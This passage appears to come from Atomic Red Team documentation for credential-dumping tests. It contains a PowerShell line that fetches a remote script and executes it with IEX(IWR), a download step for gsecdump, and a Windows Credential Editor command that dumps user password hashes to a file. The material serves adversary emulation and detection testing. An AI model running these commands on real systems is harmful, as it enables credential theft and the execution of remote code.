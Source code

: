 ```powershell
$parentpath = Split-Path "#{gsecdump_exe}"; $binpath = "$parentpath\gsecdump-v2b5.exe"
IEX(IWR "https://raw.githubusercontent.com/redcanaryco/invoke-atomicredteam/master/Public/Invoke-WebRequestVerifyHash.ps1")
if(Invoke-WebRequestVerifyHash "#{gsecdump_url}" "$binpath" #{gsecdump_bin_hash}){
  Move-Item $binpath "#{gsecdump_exe}"
}
```

<br/>
<br/>

## Atomic Test #3 - Windows Credential Editor

Dump user credentials using Windows Credential Editor (supports Windows XP, 2003, Vista, 7, 2008 and Windows 8 only)

Upon successful execution, you should see a file with user passwords/hashes at %temp%/wce-output.file.

If you see no output it is likely that execution was blocked by Anti-Virus.

If you see a message saying "wce.exe is not recognized as an internal or external command", try using the
get-prereq_commands to download and install Windows Credential Editor first.

**Supported Platforms:** Windows

#### Inputs:

| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| output_file | Path where resulting data should be placed | Path | %temp%&#92;wce-output.txt|
| wce_exe | Path of Windows Credential Editor executable | Path | PathToAtomicsFolder&#92;T1003&#92;bin&#92;wce.exe|
| wce_url | Path to download Windows Credential Editor zip file | url | https://www.ampliasecurity.com/research/wce_v1_41beta_universal.zip|
| wce_zip_hash | File hash of the Windows Credential Editor zip file | String | 8F4EFA0DDE5320694DD1AA15542FE44FDE4899ED7B3A272063902E773B6C4933|

#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin)

```cmd
#{wce_exe} -o #{output_file}
```

#### Cleanup Commands:

```cmd
del "#{output_file}" >nul 2>&1
```

#### Dependencies:  Run with `powershell`!

##### Description: Windows Credential Editor must exist on disk at specified location (#{wce_exe})
